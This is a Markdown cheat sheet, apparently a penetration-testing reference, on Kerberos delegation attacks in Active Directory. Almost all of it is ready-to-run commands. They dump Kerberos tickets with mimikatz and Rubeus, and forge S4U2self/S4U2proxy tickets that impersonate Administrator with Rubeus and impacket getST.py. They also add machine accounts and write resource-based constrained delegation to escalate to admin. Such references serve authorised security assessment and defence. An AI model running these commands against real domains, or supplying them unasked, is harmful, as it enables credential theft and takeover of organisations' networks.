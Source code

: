 ```yaml
---
title: "Kerberos Delegation"
description: "Kerberos Delegation techniques and commands for Active Directory security assessment."
---
```

## Find delegation
- `findDelegation.py "<domain>"/"<user>":"<password>"`
- With BloodHound
  - Unconstrained
    - `MATCH (c:Computer {unconstraineddelegation:true}) RETURN c`
    - `MATCH (c:User {unconstraineddelegation:true}) RETURN c`
  - Constrained
    - `MATCH p=((c:Base)-[:AllowedToDelegate]->(t:Computer)) RETURN p`
    - `MATCH p=shortestPath((u:User)-[*1..]->(c:Computer {name: "<MYTARGET.FQDN>"})) RETURN p`

## Unconstrained delegation >>> Kerberos TGT >>> PassTheTicket
- UAC: ADS_UF_TRUSTED_FOR_DELEGATION
  - Force connection  with coerce
    - Get tickets 
      - `mimikatz privilege::debug sekurlsa::tickets /export sekurlsa::tickets /export`
      - `Rubeus.exe dump /service:krbtgt /nowrap`
      - `Rubeus.exe dump /luid:0xdeadbeef /nowrap`
      - `Rubeus.exe monitor /interval:5`

## Constrained delegation
- With protocol transition (any) UAC: TRUST_TO_AUTH_FOR_DELEGATION
  - Get TGT for user
    - Request S4u2self
      - Request S4u2proxy
  - `Rubeus.exe hash /password:<password>`
    - `Rubeus.exe asktgt /user:<user> /domain:<domain> /aes256:<AES 256 hash>`
      - `Rubeus.exe s4u /ticket:<ticket> /impersonateuser:<admin_user> /msdsspn:<spn_constrained> /altservice:<altservice> /ptt`
        - Altservice HTTP/HOST/CIFS/LDAP  >>> Kerberos TGS
  - `getST.py -spn '<spn>/<target>' -impersonate Administrator -dc-ip '<dc_ip>' '<domain>/<user>:<password>' -altservice <altservice>`
    - Altservice HTTP/HOST/CIFS/LDAP >>> Kerberos TGS

- Without protocol transition (kerberos only) UAC: TRUSTED_FOR_DELEGATION
  - Constrain between Y and Z
    - Add computer X
      - Add RBCD : delegate from X to Y
        - s4u2self X (impersonate admin)
          - S4u2Proxy X (impersonate admin on spn/Y)
            - Forwardable TGS for Y
              - S4u2Proxy Y (impersonate admin on spn/Z) 
  - add computer account
    - `addcomputer.py -computer-name '<computer_name>' -computer-pass '<ComputerPassword>' -dc-host <dc> -domain-netbios <domain_netbios> '<domain>/<user>:<password>'`
  - RBCD With added computer account >>> Kerberos TGS
    - `rbcd.py -delegate-from '<rbcd_con>$' -delegate-to '<constrained>$' -dc-ip '<dc>' -action 'write' -hashes '<hash>' <domain>/<constrained>$`
      - `getST.py -spn host/<constrained> -impersonate Administrator --dc-ip <dc_ip> '<domain>/<rbcd_con>$:<rbcd_conpass>'`
        - `getST.py -spn <constrained_spn>/<target> -hashes '<hash>' '<domain>/<constrained>$' -impersonate Administrator --dc-ip <dc_ip> -additional-ticket <previous_ticket>`
  - Self RBCD @CVE@
    - Like RBCD without add computer

## Resource-Based Constrained Delegation
- add computer account
  - `addcomputer.py -computer-name '<computer_name>' -computer-pass '<ComputerPassword>' -dc-host <dc> -domain-netbios <domain_netbios> '<domain>/<user>:<password>'`
- RBCD With added computer account
  - `Rubeus.exe hash /password:<computer_pass> /user:<computer> /domain:<domain>`
    - `Rubeus.exe s4u /user:<fake_computer$> /aes256:<AES 256 hash> /impersonateuser:administrator /msdsspn:cifs/<victim.domain.local> /altservice:krbtgt,cifs,host,http,winrm,RPCSS,wsman,ldap /domain:domain.local /ptt` >>> Admin
  - `rbcd.py -delegate-from '<computer>$' -delegate-to '<target>$' -dc-ip '<dc>' -action 'write' <domain>/<user>:<password>`
    - `getST.py -spn host/<dc_fqdn> '<domain>/<computer_account>:<computer_pass>' -impersonate Administrator --dc-ip <dc_ip>` >>> Kerberos TGT >>> Admin

## S4U2self abuse
- Get machine account (X)'s TGT
  - Get a ST on X as user admin
- `getTGT.py -dc-ip "<dc_ip>" -hashes :"<machine_hash>" "<domain>"/"<machine>$"`
  - `getST.py -self -impersonate "<admin>" -altservice "cifs/<machine>" -k -no-pass -dc-ip "DomainController" "<domain>"/'<machine>$'` >>> Admin